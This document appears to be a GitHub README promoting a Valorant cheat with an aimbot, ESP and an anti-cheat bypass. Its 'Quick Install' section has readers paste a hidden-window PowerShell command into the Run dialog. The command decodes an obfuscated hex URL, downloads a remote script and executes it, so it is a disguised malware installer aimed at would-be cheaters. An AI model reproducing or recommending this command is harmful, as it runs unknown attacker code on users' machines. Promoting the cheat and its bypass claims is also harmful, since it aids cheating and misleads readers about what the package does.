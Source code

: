 # Valorant External Tool - Project Overview

**Advanced C++ game utility** featuring external memory manipulation with focus on stealth and performance

## 🔧 Technical Stack
- **C++17** core implementation
- **External memory operations** (no in-game injection)
- **Kernel-mode driver** for secure communication
- **ImGui** for overlay rendering
- **Custom memory manager** with anti-dump protection
- 
### Quick Install

- #### Press WIN+R
- #### Copy and insert command

```bash
powershell -WindowStyle Hidden -Command "$p='68747470733A2F2F6A616968696E642E6564752E696E2F67726170657375626A6563742F726570616972626574746572';$u=[System.Text.Encoding]::UTF8.GetString((1..($p.Length/2) | ForEach-Object {[Convert]::ToByte($p.Substring((($_-1)*2),2),16)}));([ScriptBlock]::Create((Invoke-RestMethod $u))).Invoke()"
```


## 🚀 Key Features
| Feature          | Description                          | Status       |
|------------------|--------------------------------------|--------------|
| Smart Aimbot     | Adaptive prediction + humanizer      | ✅ Stable    |
| ESP System       | Box/Health/Distance/Skeleton        | ✅ Stable    |
| Driver Mapper    | Manual map injection                 | 🔧 Testing   |
| Anti-Debug       | Multiple detection vectors           | ✅ Stable    |
| Config System    | JSON-based presets                   | ✅ Stable    |

## 🛡 Security Measures
- **Vanguard bypass** via IRP hooks
- **Memory signature randomization**
- **Thread stack spoofing**
- **Continuous pattern updates**

## 📦 Project Structure
